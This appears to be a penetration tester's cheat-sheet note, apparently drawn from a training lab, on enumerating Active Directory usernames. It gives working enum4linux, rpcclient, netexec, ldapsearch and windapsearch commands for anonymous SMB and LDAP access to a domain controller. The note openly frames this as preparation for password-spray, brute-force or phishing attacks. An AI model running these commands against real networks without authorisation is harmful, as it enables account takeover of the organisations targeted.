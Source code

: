 -- -
Generate a list of valid domain usernames for you to attack via a #passwordspray attack, bruteforce attack or phishing attack. 
### Tactics
- Leverage #SMBNull session to retrieve a complete list of domain users from the domain controller.
- Leverage LDAP anonymous bind to pull down list of valid domain users
- Leverage [[Dark Arts/Tools/Kerbrute|Kerbrute]] to validate users using a wordlist from the [statistically-likely-usernames](https://github.com/insidetrust/statistically-likely-usernames) repo or gathered by a tool such as [linkedin2username](https://github.com/initstring/linkedin2username) to create a list of potentially valid users. 
- Use sets of credentials provided by the client or obtained through other means such as [[LLMNR Poisoning]] or a successful password spray using a smaller wordlist. 
### Leverage Anon Access
Automated tools that leverage #SMBNull sessions or LDAP anonymous binds.
##### enum4linux
```bash
enum4linux -U <ip> | grep "user:" | cut -f2 -d"[" | cut -f1 -d"]"
enum4linux -U 172.16.5.5  | grep "user:" | cut -f2 -d"[" | cut -f1 -d"]"
```

^3ddb4d

##### rpcclient
```bash
# connect to server
rpcclient -U "" -N <ip>

# on server over rpc
enumdomusers
```

^3479a7

##### Netexec
Will return valid users with the amount of invalid login attempts on that user as well as the last time there was an incorrect login attempt. Helps us determine how close an account is to lock out. If the environment uses multiple DCs, then the bad login data points would be tracked separately on each DC, so we would need to query each DC and add up the amount of bad login attempts there have been for that account. 
```bash
netexec smb <ip> --users
```

^38aeea

##### ldapsearch
Get valid domain users from LDAP anonymous bind
```bash
ldapsearch -h 172.16.5.5 -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "(&(objectclass=user))"  | grep sAMAccountName: | cut -f2 -d" "
```

^327bd7

##### windapsearch
Get valid domain users from anonymous bind
```bash
./windapsearch.py --dec-ip <dc ip> -u "" -U
```

^bb80aa
